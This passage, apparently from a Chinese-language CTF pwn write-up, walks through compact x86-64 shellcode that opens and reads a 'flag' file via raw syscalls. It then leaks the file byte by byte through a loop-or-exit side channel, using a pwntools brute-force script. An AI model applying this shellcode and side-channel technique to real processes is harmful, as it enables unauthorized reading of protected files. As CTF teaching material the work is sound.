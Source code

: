 ```bash
    p.send(shellcode)
```

al:rax 寄存器的低 8 位  
cl:rcx 寄存器的低 8 位  
dl:rdx 寄存器的低 8 位

```bash
mov r12, 0x67616c66    ; 将字符串 "flag" 的 ASCII 值加载到寄存器 r12 中
push r12               ; 将 r12 的值推送到栈上
mov rdi, rsp           ; 将栈上的地址赋给寄存器 rdi
xor esi, esi           ; 将 esi 寄存器清零
xor edx, edx           ; 将 edx 寄存器清零
mov al, 2              ; 将系统调用号 2（open）加载到寄存器 al 中
syscall                ; 执行系统调用 open，打开文件名为 flag 的文件

mov rdi, rax           ; 将 open 返回的文件描述符赋给 rdi
mov rsi, 0x10700       ; 将缓冲区地址加载到 rsi（缓冲区是用于存放 flag 内容）
mov dl, 0x40           ; 将读取的字节数加载到 dl（64 字节）
xor rax, rax           ; 将 rax 寄存器清零
syscall                ; 执行系统调用 read，读取 flag 内容到缓冲区

mov dl, byte ptr [rsi+{}]  ; 将缓冲区中的某个字节加载到寄存器 dl
mov cl, {}             ; 将输入参数 char 加载到寄存器 cl
cmp cl, dl             ; 比较寄存器 cl 和 dl 的值
jz loop                ; 如果相等，跳转到 loop 标签
mov al, 60             ; 将系统调用号 60（exit）加载到寄存器 al 
syscall                ; 执行系统调用 exit

loop:
jmp loop               ; 无限循环

这个代码片段中的 {} 部分是通过 format(dis,char) 动态插入的
```

可以看出来这个 shellcode 写的寄存器赋值都是用的低 8 位，然后寄存器清零也是用的 xor，已经把长度尽可能的缩小了  
然后我们打印一下长度可以看到只有 0x33，所以完全符合要求

[![](assets/1703640353-6b91ed69f5ba36c57ace38a620dffbcc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191750-3db0f8be-a317-1.png)  
然后就是循环了

```bash
flag = "" #初始化一个空的字符串来存储 flag。
for i in range(len(flag),36): #从当前 flag 长度到长度 35 的范围内找到 flag 的字符
    sleep(1)
    log.success("flag : {}".format(flag)) #打印当前已知的 flag 内容。
    for j in range(0x20,0x80): #在 ASCII 可打印字符范围内进行循环。
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1) #在 1 秒内没有收到数据，将抛出一个超时异常。
            flag += chr(j)
            s('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break #跳出当前的 for 循环，继续下一个长度的 flag 的爆破。
        except:           
            p.close()
```
